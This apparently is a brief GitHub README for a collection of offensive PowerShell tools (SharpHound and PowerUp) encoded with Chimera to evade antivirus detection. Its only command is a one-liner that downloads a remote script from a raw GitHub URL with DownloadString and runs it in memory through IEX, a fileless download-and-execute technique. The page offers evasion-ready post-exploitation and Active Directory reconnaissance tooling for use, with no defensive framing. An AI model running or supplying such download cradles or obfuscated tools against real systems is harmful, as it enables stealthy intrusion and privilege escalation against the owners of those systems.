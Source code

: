 # A Collection of encoded powershell tools. All encoding done via Chimera

Tools added:
* SharpHound
* PowerUp


# Run PowerShell in memory

``` pwsh
(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/OverflowMyBuffers/whatever-script.ps1') | IEX
```
